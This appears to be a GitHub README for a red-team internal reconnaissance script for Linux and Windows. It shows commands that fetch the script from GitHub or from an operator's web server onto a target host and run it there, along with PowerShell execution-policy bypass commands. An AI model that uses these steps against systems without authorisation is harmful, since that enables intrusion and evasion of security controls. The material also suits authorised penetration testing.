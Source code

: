 # Internal Reconnaissance Phase

Definition Internal Reconnaissance...

This script reveals various information ([see Checks](#checks)) of a Linux system that may be useful in Internal Reconnaissance. For windows systems there is also a powershell script available. Check the [Windows](#windows) part for more information.

## Usage

From github:
```sh
curl -LJO https://github.com/McSquizzy/red-team-toolbox/blob/main/internal-recon/internal-recon.sh
sh internal-recon.sh
```
Local network:
```sh
# Host
sh internal-recon.sh -w
# Target
curl -LJO <Host>:8000/internal-recon.sh
sh internal-recon.sh
```

### Parameters

```sh
sh internal-recon.sh -h

Usage: internal-recon.sh [options]

Options:
-h    Show this help message
-w    Serves an local web server for transferring files

Output:
-c    No colours. Without colours, the output can probably be read better
-q    Quiet. No banner and no advisory displayed
```

## Checks

Script collecting information about:  

- System
- Network
- User & groups
- Jobs/tasks
- Services/processes
- Software
- Interesting files
- Container

## Results

Results saved to files in current directory and printed to stdout.

## Compatibility

The script uses /bin/sh syntax and is fully POSIX compatible so can run on most unix-based (POSIX/Unix/Linux) systems.

-----

## Windows

This powershell script is intended to serve as a template and is far from a finished script. 
It does simple internal recon.

### Usage

From github:  
Download powershell script from github and run it:
```
.\internal-recon.ps1
```
Local network:  
Start webserver with -w
```
# Host
sh internal-recon.sh -w
```
Download script from `http://<Host>:8000/` an run it:
```
.\internal-recon.ps1
```

## Results

Results saved to files in current directory and printed to terminal.

### Execution Policy Bypass

If there are problems with the Execution Policy on Windows, try:
```
Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted
# or
Get-Content .\internal-recon.ps1 | PowerShell.exe -noprofile -
```
or check https://gist.github.com/adithyan-ak/b5d0f2f98784e55f6edee248c85b4c5f for possible bypass commands.

-----

## Additional Information

### Search files and directories in Linux

Examples:
```
# search files and directories by keyword within "/" directory (case insensitive)
sudo find / -iname <keyword> 2>/dev/null

# search directories by keyword within "/" directory (case insensitive)
sudo find / -type d -iname some_directory 2>/dev/null

# search files with specific file extension within "/home" directory (case sensitive)
sudo find /home -type f -name "*.conf"

# search files with executable permission
sudo find /home -perm /a=x
```
